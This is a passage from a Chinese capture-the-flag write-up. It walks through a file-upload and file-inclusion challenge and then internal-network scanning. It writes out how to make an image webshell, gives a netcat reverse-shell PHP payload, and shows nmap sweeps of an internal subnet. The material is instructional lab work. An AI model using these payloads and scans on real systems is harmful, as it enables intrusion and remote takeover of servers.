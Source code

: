 ```php
                if ($is_upload) {
                    echo '<img src="'.$img_path.'" alt="Image"/>';
                }
            }
        } else {
            echo 'not image!';
        }
    }
?>
<a href="/view.php?article=wind.php">夏天的风</a>
<br>
<a href="/view.php?article=song.php">歌·颂</a>
```

ban 了 `htaccess` 和 `ph` 后缀的所有文件，并且用 `exif_imagetype` 检测是否是图片，看样子只能上传图片。写入 `phpinfo()` 利用文件包含发现可以执行

`http://47.110.130.169:10001/view.php?article=图片路径`

可以直接在图片末尾写个马，也可以利用命令制作图片马：`copy shell.jpg /b + shell.php /a realshell.jpg`

这些在之前的直播培训中都有说到，接下来使用蚁剑连接或者反弹shell都可以

蚁剑方法：

![image-20200601011824402](https://gitee.com/ivenwings/md_img/raw/master/img/20200601011824.png)

在根目录找不到 `flag`，但是发现有一个 `hint.txt`

![image-20200601004446767](https://gitee.com/ivenwings/md_img/raw/master/img/20200601004446.png)

预期解是反弹shell，监听 `nc -lvp port`，写入马 `<?php exec("nc ip port -e /bin/bash"); ?>` ，包含了之后可以发现弹到了shell。

![image-20200526153521836](https://gitee.com/ivenwings/md_img/raw/master/img/20200526153521.png)

ls 一下可以看到当前的目录，我们去找一下 `/flag`，当然找不到，因为不在这个服务器上，但是可以找到一个 `hint.txt` 

![image-20200601004417726](https://gitee.com/ivenwings/md_img/raw/master/img/20200601004417.png)

flag 不在这台服务器，看样子接下来就是内网探测了，我们 `route -n` 可以看一下目前的网关。

![image-20200526153541496](https://gitee.com/ivenwings/md_img/raw/master/img/20200526153541.png)

用 `ifconfig` 可以看到当前主机的网络

![image-20200526153553563](https://gitee.com/ivenwings/md_img/raw/master/img/20200526153553.png)

`hint.txt` 已经说了善用工具，且题目非常贴心地安装了 `nmap`，于是 `nmap -sP 192.168.1.0/24` 扫描内网存活主机，发现 ip 为 `192.168.1.123` 的存活主机，因此那就是下一步需要的搞的机。

![image-20200526153648330](https://gitee.com/ivenwings/md_img/raw/master/img/20200526153648.png)

`curl 192.168.1.123` 和 `curl 192.168.1.110` 发现没有回显，当然因为没有开 http 服务，我们先扫描一下看看开放了什么端口，用 `nmap -p 1-65535 192.168.1.123`  `nmap -p 1-65535 192.168.1.110`来扫描全部端口，发现很贴心地只开了一个 `9997` 端口，那只有是它了。

![image-20200526153827321](https://gitee.com/ivenwings/md_img/raw/master/img/20200526153827.png)
